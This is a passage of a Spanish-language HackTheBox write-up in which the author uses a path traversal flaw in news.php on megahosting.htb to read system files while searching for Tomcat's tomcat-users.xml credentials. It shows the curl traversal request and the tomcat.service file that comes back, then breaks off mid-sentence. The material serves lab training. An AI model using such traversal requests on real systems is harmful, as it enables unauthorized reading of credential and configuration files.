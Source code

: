 Buscando en internet indican dos cosas importantes:

* Lo más común es que el archivo `tomcat-users.xml` este dentro de la carpeta `$CATALINA_HOME/conf/`, por lo que debemos empezar a buscar ahí...
* El archivo tiene usuario y contraseña para poder entrar a los apartados **manager webapp** y **host-manager webapp**

Pero tampoco obtenemos salida. En una guia encontre que al momento de instalar tomcat necesitaremos un archivo de -servicio- y está guardado en `/etc/systemd/system/tomcat.service`, dentro del estarán las rutas que está usando **CATALINA_HOME** y **CATALINA_BASE**.

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../../etc/systemd/system/tomcat.service

[Unit]
Description=Tomcat 9 servlet container
After=network.target

[Service]
Type=forking

User=tomcat
Group=tomcat

Environment="JAVA_HOME=/usr/lib/jvm/default-java"
Environment="JAVA_OPTS=-Djava.security.egd=file:///dev/urandom -Djava.awt.headless=true"

Environment="CATALINA_BASE=/opt/tomcat/latest"
Environment="CATALINA_HOME=/opt/tomcat/latest"
Environment="CATALINA_PID=/opt/tomcat/latest/temp/tomcat.pid"
Environment="CATALINA_OPTS=-Xms512M -Xmx1024M -server -XX:+UseParallelGC"

ExecStart=/opt/tomcat/latest/bin/startup.sh
ExecStop=/opt/tomcat/latest/bin/shutdown.sh

[Install]
WantedBy=multi-user.target
```

Validando sobre ese **CATALINA_HOME** tampoco vemos salida del archivo `tomcat-users.xml`. Por lo tanto lo mejor es instalar localmente **tomcat** y ver como y donde se crean los archivos para así no ir a ciegas. Pero obtenemos la misma estructura que en internet y aún ningún output.

Después de bastante tiempo intentando cosas me fui para el foro de HackThebox, una pista en la que simplemente referenciaba 

```bash
sudo apt-get install ...
find / -name...
```

Me hizo dudar si la persona que creo la máquina lo había hecho así y si esa manera creaba diferentes archivos en diferentes lados... Pues si:
